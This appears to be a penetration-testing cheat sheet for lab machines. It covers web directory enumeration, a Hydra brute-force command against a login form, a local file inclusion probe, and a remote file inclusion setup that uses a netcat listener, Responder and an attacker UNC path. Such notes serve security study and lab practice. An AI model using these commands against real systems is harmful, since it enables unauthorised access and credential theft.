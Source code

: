 ## Enumeration

### Gobuster
```
gobuster dir -u https://10.11.1.35 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 50

gobuster dir -u http://10.11.1.72 -w /usr/share/SecLists/Discovery/Web-Content/common.txt 

```
### Dirsearch
https://github.com/maurosoria/dirsearch
```
python3 dirsearch.py -u <URL> -e <EXTENSION>

//search for txt files
python3 dirsearch.py -u https://10.10.10.60 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -f -e txt    
```

### Nikto

```
nikto -h IP_ADDR
```

## Bruteforce

## Hydra

```
//Bruteforce login form (Invalid is the error message return when a wrong password is provided"
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10k-most-common.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid" -t 64 
```

### LOCAL FILE INCLUSION

when there is something like ```http://10.10.10.151/blog/?lang=blog-en.php```
if the host is Windows we can try to access this file in order to validate our findings:
```
http://10.10.10.151/blog/?lang=/windows/system32/license.rtf

```
### REMOTE FILE INCLUSION

If the local file inclusion works we can try a remote one

attacker
```
nc -lvp 445

//extra 
sudo responder -I eth0  
```
website
```
http://10.10.10.151/blog/?lang=\\10.10.14.7\test\testFILE
```

